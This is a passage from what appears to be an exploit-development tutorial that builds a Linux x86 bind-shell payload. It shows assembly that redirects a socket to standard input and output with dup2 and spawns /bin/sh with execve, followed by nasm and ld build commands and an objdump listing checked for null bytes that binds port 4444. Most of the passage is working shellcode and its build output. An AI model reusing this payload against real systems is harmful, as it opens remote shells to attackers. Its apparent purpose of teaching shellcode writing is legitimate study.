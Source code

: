 ```asm
        
        
        mov ebx, eax        ; client_socket used for arg
        xor ecx, ecx        
        mov cl, 0x2         ; prepare counter
dup:
        ; syscall - dup2 (0x3f)
        mov al, 0x3f
        int 0x80            ; dup2(client_socket, x)
        dec ecx
        jns dup             ; jump if positive, don't if negative
        
        
        ;***************;
        ; execute shell ;
        ;***************;
        
        
        push edx            ; 0x0
        push 0x68732f2f     ; push hs//
        push 0x6e69622f     ; push nib/
        
        mov ebx, esp        ; null terminated /bin//sh
        mov ecx, edx        ; 0x0
        mov al, 0xB
        int 0x80            ; execve("/bin//sh", NULL, NULL)
```
Compile it:
> nasm -f elf32 -o bind_shell.o bind_shell.nasm

> ld -z execstack -o bind_shell bind_shell.o

Let's check this for null bytes:
```
objdump -d bind_shell -M intel
bind_shell:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:	31 c0                	xor    eax,eax
 8048082:	31 db                	xor    ebx,ebx
 8048084:	31 c9                	xor    ecx,ecx
 8048086:	31 d2                	xor    edx,edx
 8048088:	b0 66                	mov    al,0x66
 804808a:	b3 01                	mov    bl,0x1
 804808c:	51                   	push   ecx
 804808d:	53                   	push   ebx
 804808e:	6a 02                	push   0x2
 8048090:	89 e1                	mov    ecx,esp
 8048092:	cd 80                	int    0x80
 8048094:	89 c7                	mov    edi,eax
 8048096:	b0 66                	mov    al,0x66
 8048098:	43                   	inc    ebx
 8048099:	52                   	push   edx
 804809a:	66 68 11 5c          	pushw  0x5c11
 804809e:	66 53                	push   bx
 80480a0:	89 e1                	mov    ecx,esp
 80480a2:	6a 10                	push   0x10
 80480a4:	51                   	push   ecx
 80480a5:	57                   	push   edi
 80480a6:	89 e1                	mov    ecx,esp
 80480a8:	cd 80                	int    0x80
```